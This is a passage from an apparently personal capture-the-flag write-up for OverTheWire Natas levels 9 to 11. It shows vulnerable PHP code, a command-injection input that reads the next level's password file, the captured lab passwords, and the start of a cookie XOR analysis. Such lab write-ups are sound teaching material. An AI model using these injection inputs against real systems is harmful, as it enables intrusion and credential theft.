 ```
Username: natas9
URL:      http://natas9.natas.labs.overthewire.org
```

The program provides source code:

> ```php
> if($key != "") {
>     passthru("grep -i $key dictionary.txt");
> }
> ```

Basically all it does is return all the lines in dictionary.txt that partly contain the input. We can use this to print out the password for the next level, by printing the file `/etc/natas_webpass/natas10` instead, and commenting the rest of the string out using `#`. Also, entering `.` prints out the entire file. So i entered in `. /etc/natas_webpass/natas10 #` to get the password.

```
Output:

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

# 10

```
Username: natas10
URL:      http://natas10.natas.labs.overthewire.org
```

I guess the filter is broken, because our previous solution still works: `. /etc/natas_webpass/natas11 #`

```
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```

# 11

```
Username: natas11
URL:      http://natas11.natas.labs.overthewire.org
```

The website stores a `data` cookie with the value `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D`.

Looking at the source code, it seems that the cookie is actually an array that stores the background color `bgcolor` as well as `showpassword`, but interpreted in JSON text format. The text is run through the xor_encrypt function, which xor's every letter by a secret key text. The result is then coverted into base64 and stored as the cookie. 

Since our cookie is based on the default array which is given: 

> $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
